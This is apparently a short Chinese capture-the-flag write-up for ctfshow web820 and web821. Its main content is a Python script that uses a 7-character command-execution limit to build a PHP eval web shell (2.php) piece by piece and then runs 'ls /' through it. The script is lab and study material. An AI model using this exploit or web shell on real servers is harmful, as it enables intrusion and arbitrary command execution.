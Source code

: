##  web820

上传的马

[不想写了](https://blog.csdn.net/miuzzx/article/details/124038567?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165700916316781685398566%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=165700916316781685398566&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-124038567-null-null.185^v2^tag_show&utm_term=%E5%B8%B8%E7%94%A8%E5%A7%BF%E5%8A%BF&spm=1018.2226.3001.4450)

##  web821

考点：限制长度的命令执行，7字符可写

https://www.cnblogs.com/-chenxs/p/11981586.html

https://xz.aliyun.com/t/2748#toc-2

https://miaotony.xyz/2021/01/31/CTF_web_CommandExecutionLimitedLength/

直接给本子：

```python
import  requests
import time
url="http://8498c2d2-871b-4db4-8a04-59f0fbda6b23.challenge.ctf.show/"

payload=[
">hp",
">2.p\\",
">d\\>\\",
">\\ -\\",
">e64\\",
">bas\\",
">7\\|\\",
">XSk\\",
">Fsx\\",
">dFV\\",
">kX0\\",
">bCg\\",
">XZh\\",
">AgZ\\",
">waH\\",
">PD9\\",
">o\\ \\",
">ech\\",
"ls -t>0",
". 0"
]

def write():
    for p in payload:
        data={
            'cmd':p.strip()
        }
        requests.post(url=url,data=data)
        print("[*]create"+p.strip())
        time.sleep(1)
def read():
    u=url+'2.php'
    p={
        '1':'system("ls /");echo z3eyond;'
    }
    r=requests.get(url=u,params=p)
    if 'z3eyond' in r.text:
        print(r.text)
```